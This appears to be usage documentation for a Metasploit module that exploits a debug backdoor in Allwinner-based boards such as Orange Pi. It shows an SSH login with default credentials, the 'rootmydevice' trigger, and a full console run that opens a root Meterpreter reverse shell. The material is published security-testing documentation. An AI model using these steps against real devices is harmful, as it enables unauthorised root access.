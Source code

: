   ## Introduction
  Vulnerable Allwinner SoC chips: H3, A83T or H8 which rely on Kernel 3.4
  Vulnerable OS: all OS images available for Orange Pis,
				 any for FriendlyARM's NanoPi M1,
				 SinoVoip's M2+ and M3,
				 Cuebietech's Cubietruck +
				 Linksprite's pcDuino8 Uno
  Exploitation may be possible against Dragon (x10) and Allwinner Android tablets

This module attempts to exploit a debug backdoor privilege escalation in Allwinner SoC based devices. Implements the Allwinner privilege escalation as documented in [Metasploit issue #6869](https://github.com/rapid7/metasploit-framework/issues/6869).  It is a simple debug kernel module that, when "rootmydevice" is echoed to the process, it escalates the shell to root.

## Usage

To use this module, you need a vulnerable device.  An Orange Pi (PC model) running Lubuntu 14.04 v0.8.0 works, but other OSes for the device (as well as other devices) are also vulnerable.

- `use auxiliary/scanner/ssh/ssh_login`

```
msf auxiliary(ssh_login) > set username orangepi
username => orangepi
msf auxiliary(ssh_login) > set password orangepi
password => orangepi
msf auxiliary(ssh_login) > set rhosts 192.168.2.21
rhosts => 192.168.2.21
msf auxiliary(ssh_login) > exploit

[*] 192.168.2.21:22 SSH - Starting bruteforce
[+] 192.168.2.21:22 SSH - Success: 'orangepi:orangepi' 'uid=1001(orangepi) gid=1001(orangepi) groups=1001(orangepi),27(sudo),29(audio) Linux orangepi 3.4.39 #41 SMP PREEMPT Sun Jun 21 13:09:26 HKT 2015 armv7l armv7l armv7l GNU/Linux '
[!] No active DB -- Credential data will not be saved!
[*] Command shell session 1 opened (192.168.2.229:33673 -> 192.168.2.21:22) at 2016-05-17 21:55:27 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

- `use exploit/multi/local/allwinner_backdoor`

```
msf exploit(allwinner_backdoor) > set verbose true
verbose => true
msf exploit(allwinner_backdoor) > set session 1
session => 1
msf exploit(allwinner_backdoor) > set payload linux/armle/meterpreter/reverse_tcp
payload => linux/armle/meterpreter/reverse_tcp
msf exploit(allwinner_backdoor) > set lhost 192.168.2.117
lhost => 192.168.2.117
msf exploit(allwinner_backdoor) > check
[*]  The target appears to be vulnerable.
msf exploit(allwinner_backdoor) > exploit
```

## Successful exploitation:

```
[*] Started reverse TCP handler on 192.168.2.117:4444
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[+] Backdoor Found, writing payload to /tmp/odzVx.elf
[*] Max line length is 65537
[*] Writing 284 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[+] Escalating
[*] Transmitting intermediate stager...(136 bytes)
[*] Sending stage (374540 bytes) to 192.168.2.248
[*] Meterpreter session 2 opened (192.168.2.117:4444 -> 192.168.2.248:49472) at 2016-09-22 21:56:50 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.2.248
OS           : Ubuntu 14.04 (Linux 3.4.39)
Architecture : armv7l
Meterpreter  : armle/linux
```
